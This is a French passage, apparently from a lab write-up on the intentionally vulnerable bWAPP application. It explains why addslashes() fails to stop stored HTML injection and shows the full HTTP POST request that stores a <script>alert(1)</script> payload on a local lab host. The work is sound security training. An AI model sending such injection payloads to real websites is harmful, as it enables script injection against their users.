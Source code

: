 La méthode `addslashes()` permet d'échapper (en ajoutant un anti-slash) les caractères guillemets simples ( ' ), guillemets doubles ( " ), antislash (\\) et l'octet NUL :

![](<../../../../../.gitbook/assets/image (5) (2).png>)

L'injection de base va fonctionner sans problème :&#x20;

```http
POST /bWAPP/htmli_stored.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 68
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_stored.php
Cookie: PHPSESSID=dd072f586873ddbc6e0a10ae3229b270; security_level=1
Connection: close

entry=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&blog=submit&entry_add=
```

![](<../../../../../.gitbook/assets/image (11) (1) (2).png>)
